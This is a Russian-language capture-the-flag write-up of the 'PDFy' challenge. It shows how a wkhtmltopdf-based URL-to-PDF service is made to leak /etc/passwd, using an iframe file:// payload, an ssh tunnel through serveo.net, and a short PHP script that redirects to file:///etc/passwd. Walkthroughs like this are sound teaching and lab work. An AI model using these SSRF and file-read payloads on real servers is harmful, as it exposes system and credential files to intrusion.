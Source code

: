 # PDFy
ACHTUNG! много воды, мой первый райтап, на эмоциях

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/c32887e3-3e3a-43d4-9046-dabc22135352)
Суть задачи в том, что нам дают возможность в форме ввода написать адрес сайта, который мы хотим превратить в .pdf файл.
Как говорит описание задачи нужно добиться утечки /etc/passwd.

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/4a7c2d00-6ca9-427e-956e-c52083733196)
Войдя на страничку, видим форму ввода и предложение закинуть адрес любимого сайтика, чтобы увидеть его в pdf формате


Ввел https://google.com, получил свой pdf файл
![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/c16c4060-f834-4f12-8bea-94091820a66b)

Можно заметить, что страница выглядит не совсем привычно, будто бы отсутствуют стили, разметка где-то съезжает, если ввести другие страницы.

Если ввести пустоту, то выдаст ошибку 
```
{
    "level": "danger",
    "message": "Malformed url "
}
```
Если ввести проблемную ссылку, то выйдет ошибка
```
{
    "level": "error",
    "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', \"'https://45918e26a690bfbd996ba63814a8f24b.serveo.net/phppy.php?x=/etc/passwd'\", 'application/static/pdfs/b976b682d3a031d314791f89cf69.pdf']' returned non-zero exit status 1."
}
```
Можно обнаружить, что используется некий *'wkhtmltopdf'*.

Погуглив, можно узнать, что это тулза для генерации pdf файлов в веб проекте
![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/29709514-a5bc-4f7b-b387-b7210585b60f)


Погуглив 'wkhtmltopdf lfi' находим [уязвимости](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/) связанные с этим сервисом.

Предлагают следующий способ 
```
POST /api/v1/pdf_report HTTP/1.1
[..]
{“data”:”<div><p>Report Heading</p>[..]}


POST /api/v1/pdf_report HTTP/1.1
[..]
{“data”:”<div><p>Report Heading</p><iframe src=”file:///etc/passwd” height=”500” width=”500”>[..]}
```
интересная затея через html выводить содержимое file:///etc/passwd
<!-- P.S. я около двух дней еб#лся с этой задачей, а решение оказывается скрывается в одной строчке php-кода, считаю, что стоит показать все мои попытки решить задачу, в конце будет уже окончательное решение-->
попробуем реализовать это через webhook.site (очевидно, что сервис PDFy не сможет видеть localhost, поэтому придется прибегнуть к услугам сервисом туннелирования или даже поднять сервер и захостить)

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/10b41c2a-292c-44f9-bcb7-f3c307e5a0c1)
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <h></h>
    <iframe src="file:///etc/passwd"></iframe>
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
</head>
<body>
</body>
</html>
```

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/302a8985-d05e-4038-bd0f-5e438e596778)
Наш вебхук теперь выглядит так, вместо пустоты должно выводиться содержимое /etc/passwd, у нас этого не видно, но в теории у Linux сервера, должно сработать и выведется список юзеров и пароли
...
Получаем свою ошибку
```
"message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'https://webhook.site/54c5bd57-1beb-4a5a-a0fd-0c45b34768e9', 'application/static/pdfs/ccf716f26454114afcc36527723b.pdf']' returned non-zero exit status 1."
```

если убрать в Content type: text/html и поставить к примеру просто text/plain, то он это будет читать, ведь ему не придется рендерить html контент и js script

### ПОНЯТНО! вебхук нам в этом никак не поможет, придётся шаманить по своему

Воспользуемся сервисами туннелирования, СПОЙЛЕР ngrok нам не поможет, т.к как оказалось у них сменилась политика и теперь при переходе на страницу, нужно сперва подтвердить переход, а лишь потом получать уже содержимое страницы, это нам не подходит, т.к. сервис тупо будет возвращать нам пустую страницу(я на это и потратил день)
Воспользуемся бесплатным и не требующим установки сервисом serveo.net
Чтобы запустить в cmd вводим 
```
ssh -R 80:localhost:8000 serveo.net
```
после этого Сервео выдаст нам временную ссылку на сайт с нашим локалхостом, нужно её вставить в форму ввода и забрать флаг, но перед этим надо поднять этот самый локалхост на 8000 порту.

СПОЙЛЕР python fast api не лучший выбор, как оказалось есть еще одна [уязвимость](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/) с php кодом
```
<?php header('location:file://'.$_REQUEST['x']); ?>
```
Поднимаем сервер на php
```
php -S localhost:8000
```
чтобы сработало, нужно в форму ввода отправить https://abc.serveo.net/<phpfilename>.php?x=/etc/passwd
...
опять не сработало, на этот раз браузер просто не дает нам это сделать![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/856d0b42-53dd-42df-a10f-86f9e82b998f)
выходит ошибка безопасности... сервис возвращает ошибку или пустую страницу, придется искать другой способ.

Я попытался сразу же видоизменить код и чтобы он сразу в заголовок вставлял Location:file:///etc/passwd
```
<?php
header("location: file:///etc/passwd");
// phpinfo();
?>
```
Финальный код, который срабатывает на сервере, НО НЕ У НАС, поэтому надо сразу заливать в сервис PDFy, у нас будет выходить та же ошибка.

![image](https://github.com/Seven11Eleven/CTF-writeups/assets/120821293/22e743de-1158-42be-9896-2319f1d6d62b)
у нас получилось, мы получили флаг и теперь можем сабмитнуть его
